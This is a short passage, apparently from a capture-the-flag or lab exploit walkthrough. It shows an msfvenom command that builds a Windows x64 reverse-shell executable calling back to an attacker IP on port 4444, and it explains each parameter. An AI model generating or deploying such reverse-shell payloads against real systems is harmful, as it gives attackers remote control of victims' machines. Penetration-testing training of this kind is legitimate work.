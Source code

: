 ## In order for  our exploit to work well, we need a payload from msfvenom or you can use online payload generators
```
command: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe


WHERE:
LHOST= your ip address
LPORT = The port to listern on
a     = architecture (x64 or x32)
o     = where we can save our payload
p     = specifying the plaform where we will need to send our exploit to
```
